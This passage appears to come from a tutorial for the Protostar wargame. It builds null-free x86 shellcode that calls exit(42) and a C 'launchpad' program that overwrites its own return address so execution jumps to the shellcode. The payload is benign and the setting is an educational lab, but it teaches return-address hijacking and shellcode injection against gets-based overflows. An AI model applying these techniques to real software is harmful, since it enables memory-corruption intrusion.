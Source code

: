 This program not only calls the \texttt{sys\_exit} syscall with a value of 42, but also is designed
specifically to avoid producing null bytes when assembled. This is so that during exploitation,
our shellcode is entirely accepted by \texttt{gets}, as opposed to truncated at the first null byte.
Let's assemble this and take a look.

\begin{lstlisting}
user@protostar:~/shellcode/exit$ as -o exit.o exit.asm
user@protostar:~/shellcode/exit$ ld -o exit_asm exit.o
user@protostar:~/shellcode/exit$ objdump -d exit_asm
...
08048054 <_start>:
 8048054:       31 c0                   xor    %eax,%eax
 8048056:       31 db                   xor    %ebx,%ebx
 8048058:       b3 2a                   mov    $0x2a,%bl
 804805a:       b0 01                   mov    $0x1,%al
 804805c:       cd 80                   int    $0x80
user@protostar:~/shellcode/exit$ ./exit_asm
user@protostar:~/shellcode/exit$ echo $?
42
\end{lstlisting}

Here, we assemble and link our exit.asm file, then use objdump to verify that we have not produced any
null bytes (we haven't). Next, we run our program and verify it does exit with a value of 42 (it does).
Now that we've done this, we're basically ready to build some very simple shellcode that will 
essentially \texttt{\_exit(42)} when executed in the target process. As the only important piece of information
at this step is the specific sequence of bytes which make up our \texttt{\_exit(42)} shellcode,
let's do one final test with it, executing it in an environment similar to our target.

\begin{lstlisting}
//injectable version (no nulls)
char injectable[] = "\x31\xc0" // xorl %eax,%eax
                "\x31\xdb" // xorl %ebx,%ebx
                "\xb3\x2a" //movb $42,%bl
                "\xb0\x01" //movb $1,%al
                "\xcd\x80"; //int $0x80
void launchpad(long placeholder)
{
        long *eip = &placeholder;
        eip--;
        *eip = (long)&injectable;
}

int main()
{
        launchpad(0xf0f0f0f0);
}
\end{lstlisting}

Here, our launchpad function takes advantage of the standard calling convention to overwrite its own
return pointer with the address of our shellcode, simulating an execution redirection in
a normal exploitation. Debugging this program lets us watch the return value get clobbered, as
well as test that our shellcode functions as it should.

